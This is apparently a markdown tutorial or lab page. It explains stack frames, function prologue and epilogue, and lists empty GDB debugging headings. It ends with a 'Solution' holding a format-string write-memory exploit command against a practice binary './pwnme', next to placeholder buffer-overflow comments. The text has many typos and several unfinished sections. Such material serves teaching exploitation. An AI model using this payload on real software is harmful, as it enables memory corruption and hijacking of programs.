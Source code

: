 For each function call, there is a section in the stack reserved for the function.  This reserved space is called the **stack frame**.  The stack contains the parameters to the function, its local variables, and the data necesarry to recover the previous stack frame. Multiple stack frames in sequence is called a **call stack**.


#### 3.1 How is a function called?
Before a function is called, a series of events takes place:
1. The local variables and temporiries are pushed onto the stack.
2. The parameters of the function being called are pushed on the stack.
3. The PC (Program Counter) is ushed onto the stack (usually identified by a `call` instruction).  If the PC resides on the stack, it is referredd to as the **return address**

These steps are taking to ensure the program knows how to continue, after the called function has been executed.

When a function begins executing, another series of events takes place:
1.  The current FP (Frame Pointer, also known as Base Pointer) is pushed onto the stack.
2. The SP (Stack Pointer) is copied to the FP.
3. SP is adjusted to "make room" for local variables on the stack.

This process is referred to as the **function prologue**.

When a function completes its execution, it reverses the steps, called the **function epilogue**
1. The SP is restored and the space for local variables is deallocated.
2. The FP is restored and the previous frame is restored
3. The PC is restored (identified by the `ret` instruction)

When execution is restored to the original caller, the process is as follows:
1. The parameters of the function that was called are removed from the stack.
2. The local variables are popped off the stack, thus restoring them.

#### 3.2 Stack Frame Layout


---
> ## Introduction to Debugging with GDB

### 1. Intel versus AT&T Syntax

### 2. Disassemblying

### 3. Viewing Registers

### 4. Viewing Frames

### 5. Viewing Memory

### 6. Editing Values in Memory

---
> ## Solution

```
# ; buffer overflow

# ; buffer overflow

# ; buffer overflow

# ; format string : write memory exploit
$ ./pwnme $(python -c 'print "\xff\xd6\xff\xff"')%1331x%5\$n
```
